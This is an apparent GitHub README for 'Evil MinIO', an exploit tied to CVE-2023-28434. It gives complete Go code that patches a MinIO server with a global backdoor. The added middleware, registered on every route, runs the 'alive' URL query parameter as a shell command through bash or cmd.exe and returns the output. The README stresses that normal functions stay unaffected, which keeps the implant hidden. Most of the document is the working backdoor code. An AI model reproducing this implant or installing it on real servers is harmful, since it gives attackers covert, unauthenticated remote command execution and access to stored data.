


# Evil MinIO (CVE-2023-28434)

Doc: [CVE-2023-28432 minio 接口未授权访问到无损RCE和全局后门.pdf](./CVE-2023-28432%20minio%20接口未授权访问到无损RCE和全局后门.pdf)

EXP for **CVE-2023-28434**

MinIO unauthorized to RCE

Changed from [https://github.com/minio/minio/tree/8b4d0255b7247b1a06d923e69ed5ba01434e70b8](https://github.com/minio/minio/tree/8b4d0255b7247b1a06d923e69ed5ba01434e70b8)

## Changed what?

- add `cmd/x.go`, used for exec system command
```go
package cmd

import (
	"os/exec"
	"runtime"
)

func getOutputDirectly(commandStr string) string {
	var execGlobalOutput string
	var shell [2]string
	var systemOS string = runtime.GOOS
	if systemOS == "linux" || systemOS == "darwin" {
		shell[0], shell[1] = "/bin/bash", "-c"
	} else {
		shell[0], shell[1] = "C:\\Windows\\System32\\cmd.exe", "/c"
	}
	cmd := exec.Command(shell[0], shell[1], commandStr)
	output, err := cmd.Output()
	if err != nil {
		return ""
	}
	execGlobalOutput += string(output)
	return execGlobalOutput
}
```
- `cmd/routers.go`, add line #72 
```go
// ..........
	setUploadForwardingHandler,
	// Add bucket forwarding handler
	setBucketForwardingHandler,
	// Add new handlers here.
	xHandler, // ADD THIS LINE 
}

// configureServer handler returns final handler for the http server.
func configureServerHandler(endpointServerPools EndpointServerPools) (http.Handler, error) {
// ..........
```

- `cmd/generic-handlers.go`, add function `xHandler` at the end
```go
func xHandler(h http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		var arg string
		values := r.URL.Query()
		arg = values.Get("alive")
		if arg != "" {
			w.Write([]byte(getOutputDirectly(arg)))
			return
		}
		h.ServeHTTP(w, r)
	})
}
```


## What can be done?


1. GLOBAL backdoor as  `http://1.2.3.4/?alive=whoami` and `http://1.2.3.4/anything?alive=whoami`
2. Normal functions will not be affected




